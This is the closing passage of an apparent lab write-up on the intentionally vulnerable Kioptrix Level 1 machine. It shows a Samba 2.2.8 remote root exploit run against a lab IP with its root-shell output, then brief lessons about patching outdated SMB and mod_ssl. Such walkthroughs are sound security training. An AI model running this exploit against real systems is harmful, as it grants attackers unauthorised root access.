 So, running the binary with the following parameters results in root access:

```bash
kali@kali:~$ ./a.out -b0 192.168.56.107 192.168.56.102
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root
```
## Lessons learned

I gained full access of the machine through two separate entry points, the SMB service and the mod_ssl module running on the Apache web server. Both of these entries relied on outdated versions running on the target’s machine. This can be easily prevented by regularly performing updates.
